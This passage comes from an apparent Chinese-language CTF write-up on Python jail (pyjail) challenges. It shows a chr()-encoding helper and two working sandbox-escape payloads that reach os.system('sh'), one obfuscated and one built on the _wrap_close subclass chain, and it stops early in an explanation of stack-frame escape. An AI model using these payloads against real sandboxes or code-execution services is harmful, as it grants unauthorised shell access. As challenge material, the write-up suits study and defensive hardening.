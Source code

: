 写一个将字符串转换为 chr() 函数调用的形式的脚本：

```python
def string_to_chr(input_string):
    """
    将字符串转换为 chr() 函数调用的形式
    例如: "__import__('os').system('sh')" -> "chr(95)+chr(95)+chr(105)+chr(109)+..."
    """
    if not input_string:
        return ""
    
    chr_parts = []
    for char in input_string:
        ascii_value = ord(char)
        chr_parts.append(f"chr({ascii_value})")
    
    return "+".join(chr_parts)
```

然后用这个脚本将所有的字符串改写成 chr() 调用的形式，构造出如下 payload

```python
getattr(getattr(getattr(globals(),chr(103)+chr(101)+chr(116))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)),chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))(chr(111)+chr(115)),chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(115)+chr(104))
```

##### Pyjail 3

这道题目禁用了 `__builtins__`，但可以通过 Python 的对象继承链来绕过限制。核心思路是利用字符串对象向上追溯到 `object` 基类，再通过其所有子类找到可以访问到危险函数的类。

```python
[x.__init__.__globals__ for x in "".__class__.__base__.__subclasses__() if x.__name__ == "_wrap_close"][0]["system"]("sh")
```

具体来说，`"".__class__.__base__` 获取了 `object` 基类，通过 `__subclasses__()` 可以列出所有继承自 `object` 的子类。在这些子类中，`_wrap_close` 类的初始化方法 `__init__` 拥有 `__globals__` 属性，这个属性包含了该方法定义时所在模块的全局命名空间。关键是这个全局命名空间中包含了 `system` 函数（来自 `os` 模块），可以直接用来执行系统命令。

整个 payload 使用列表推导式筛选出名为 `_wrap_close` 的类，取其 `__init__.__globals__` 字典，从中提取 `system` 函数并执行 `sh` 命令来获取 shell。这种方法绕过了 `__builtins__` 的限制，通过 Python 内部机制实现了代码执行。

##### Pyjail 4

这题禁止了绝大部分属性的点号访问，应该是只能栈帧逃逸了。

###### [栈帧逃逸](https://www.cnblogs.com/gaorenyusi/p/18242719)

在 Python 中，栈帧（stack frame），也称为帧（frame），是用于执行代码的数据结构。每当 Python 解释器执行一个函数或方法时，都会创建一个新的栈帧，用于存储该函数或方法的局部变量、参数、返回地址以及其他执行相关的信息。这些栈帧会按照调用顺序被组织成一个栈，称为调用栈。

栈帧包含了以下几个重要的属性：  
`f_locals`: 一个字典，包含了函数或方法的局部变量。键是变量名，值是变量的值。  
`f_globals`: 一个字典，包含了函数或方法所在模块的全局变量。键是全局变量名，值是变量的值。  
`f_code`: 一个代码对象（code object），包含了函数或方法的字节码指令、常量、变量名等信息。  
`f_lasti`: 整数，表示最后执行的字节码指令的索引。  
`f_back`: 指向上一级调用栈帧的引用，用于构建调用栈。
